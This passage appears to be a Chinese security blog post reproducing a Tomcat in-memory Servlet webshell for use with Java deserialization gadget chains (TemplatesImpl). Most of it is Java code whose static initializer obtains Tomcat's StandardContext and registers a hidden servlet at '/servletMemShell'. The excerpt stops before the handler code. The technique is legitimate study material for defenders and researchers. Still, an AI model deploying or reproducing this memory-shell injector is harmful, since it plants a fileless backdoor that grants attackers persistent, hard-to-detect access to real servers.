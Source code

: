 CC链自己肯定有，懒得贴了

之前复现是直接extends继承的HttpServlet，因为TemplatesImpl需要继承AbstractTranslet的原因，不能同时继承两个类，所以看下能不能替换HttpServlet

HttpServlet继承了GenericServlet

![image-20250225214210834](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250225214210834.png)

GenericServlet实现了Servlet，ServletConfig，Serializable接口

![image-20250225214234418](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250225214234418.png)

很明显，Servlet接口的service方法就是可以用来替换doGet、doPost的方法

![image-20250225214334624](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250225214334624.png)

所以Java代码下，用kingkk师傅构造的从ApplicationFilterChain取resquest 的 servlet+TemplatesImpl code如下：

```java
package org.example.tomcatmemshell.servlet;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.Context;
import org.apache.catalina.WebResourceRoot;
import org.apache.catalina.core.*;
import org.apache.catalina.loader.WebappClassLoaderBase;

import javax.servlet.*;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Field;
import java.lang.reflect.Modifier;
import java.util.Enumeration;

public class ServletMemShell extends AbstractTranslet implements Servlet, ServletConfig, java.io.Serializable{
    private String message;

    static {
        try {
            //获取StandardContext
//            StandardContext standardContext = getStandardContext1();
            StandardContext standardContext = getStandardContext2();
            if(standardContext != null){
                //自定义StandardWrapper注册进StandardContext
                ServletMemShell servletMemShell = new ServletMemShell();
                StandardWrapper standardWrapper = null;
                standardWrapper = (StandardWrapper) standardContext.createWrapper();
                standardWrapper.setName("servletMemShell");
                standardWrapper.setServletClass(servletMemShell.getClass().getName());
                standardWrapper.setServlet(servletMemShell);
                standardContext.addChild(standardWrapper);
                standardContext.addServletMappingDecoded("/servletMemShell", "servletMemShell");
            }
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    @Override
```